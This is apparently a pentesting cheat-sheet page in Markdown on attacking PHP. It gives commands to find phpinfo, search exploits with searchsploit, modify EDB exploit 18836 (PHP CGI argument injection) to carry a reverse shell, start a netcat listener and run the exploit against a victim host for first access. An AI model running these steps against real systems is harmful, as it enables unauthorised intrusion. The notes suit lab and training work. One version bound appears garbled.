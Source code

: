 # PHP

## Explanation

## Technics

### PHP info

```
http://10.2.19.172/phpinfo.php
```

### Search Exploits

```
searchsploit php cgi
```

### PHP < 5.13.12 / < 5.4.2 - CGI Argument Injection

1. Download exploit on your Kali :
```
searchsploit -m 18836
```

2. Modify this exploit for insert reverse shell :

```
vim 18836.py
```

![cgi-argument-exploit](../../../Media/PHP/cgi-argument-exploit.png)

3. Start listener on new window :

```
nc -nvlp 1234
```

4. Start exploit for gain first access :

```
python2 18836.py <victim-machine> 80
```